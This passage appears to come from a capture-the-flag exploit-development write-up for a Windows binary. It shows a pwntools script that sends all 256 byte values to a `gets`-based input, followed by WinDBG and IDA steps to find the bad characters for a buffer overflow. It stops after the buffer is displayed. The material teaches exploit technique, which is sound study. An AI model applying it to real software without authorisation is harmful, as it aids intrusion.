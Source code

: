 ### IDENTIFYING OUR BAD bytes

In order to do this, we will write a script to send a payload with all the bytes from 0x00 to 0xff and then examine the buffer in WinDBG to see which bytes cause our payload to get cut off.

The script:

```py
from pwn import *

p = process('./window_of_opportunity.exe')

payload = b""

for i in range(256):
    payload += i.to_bytes(1, 'little')

pause()

p.sendlineafter(b'interested in? ', b'5')
p.sendlineafter(b'have any.\r\n', payload)

p.interactive()
```

If we look at our program in IDA, we find the `gets` call at address `004011C0`.

![image](ida0.png)

We will run the script, attach our WinDBG, break at the `gets` call and examine the buffer after the gets call.

Running the script, we see our buffer

![image](buf0.png)
